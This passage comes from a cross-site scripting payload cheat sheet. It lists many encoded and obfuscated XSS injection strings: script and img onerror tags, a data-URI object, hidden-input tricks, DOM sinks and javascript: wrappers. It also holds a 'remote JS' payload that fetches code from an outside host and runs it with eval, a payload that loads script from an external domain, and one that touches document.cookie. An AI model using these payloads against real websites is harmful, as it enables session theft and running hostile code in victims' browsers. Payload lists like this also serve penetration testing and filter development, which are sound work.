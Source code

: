 ```

cgonzalo"><</script/script><script ~~~>\u0061lert(1)</script ~~~>

cgonzalo"><img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />

cgonzalo"><img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />

cgonzalo"><object data="data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e"></object>
```
	
### XSS using a remote JS

```
cgonzalo"><svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
	
cgonzalo"><script src=14.rs>
```

### XSS in hidden input

```
cgonzalo"><input type="hidden" accesskey="x" onclick="alert(1)"> (Use CTRL+SHIFT+X to trigger the onclick event)
```

### DOM based XSS

Based on a DOM XSS sink.

```
#"><img src=/ onerror=alert(2)>
```

## XSS in wrappers javascript and data URI

Space substitutions inside JS code:

```
<TAB>
/**/
```

XSS with javascript:

```
-(confirm)(document.domain)//

; alert(1);//

javascript://%0a%0dalert(document.cookie)

javaxscript:alert(1)

javascript:prompt(1)

%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341

&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41

\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)

\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)

\152\141\166\141\163\143\162\151\160\164\072alert(1)

```